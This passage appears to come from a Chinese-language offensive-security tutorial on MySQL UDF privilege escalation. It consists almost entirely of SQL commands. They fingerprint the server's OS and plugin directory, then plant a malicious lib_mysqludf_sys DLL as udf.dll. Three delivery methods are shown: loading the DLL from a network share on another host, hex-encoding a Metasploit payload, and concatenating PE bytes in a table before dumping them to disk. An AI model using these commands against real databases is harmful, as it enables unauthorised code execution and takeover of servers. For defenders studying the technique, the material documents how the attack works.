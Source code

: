```
select @@version_compile_os, @@version_compile_machine

show variables like '%compile%';
```
![](https://ae01.alicdn.com/kf/H30985732ca5b411aa9bb4040986853d3S.jpg)

- 查找plugin文件夹

**MySQL 5.0.67以后udf.dll必须位于plugin文件夹**

```
select @@plugin_dir ;
show variables like 'plugin%';
```

![](https://ae01.alicdn.com/kf/Hebbbdd52841e4b1e800770ad9e381e8fW.jpg)

- 旧版本可以使用目录

```
@@datadir
@@basedir\bin
C:\windows
C:\windows\system
C:\windows\system32
```

### 上传二进制文件

- 网络共享

```
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```

- 十六进制编码

```
select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) into dumpfile '/tmp/udf.hex';

select 0x4d5a90000300000004000000ffff0000b80000000000000040000000000000000000000000000000000000000… into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```

-  创建表拼接

```
create table temp(data longblob);

insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);

update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);

select data from temp into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
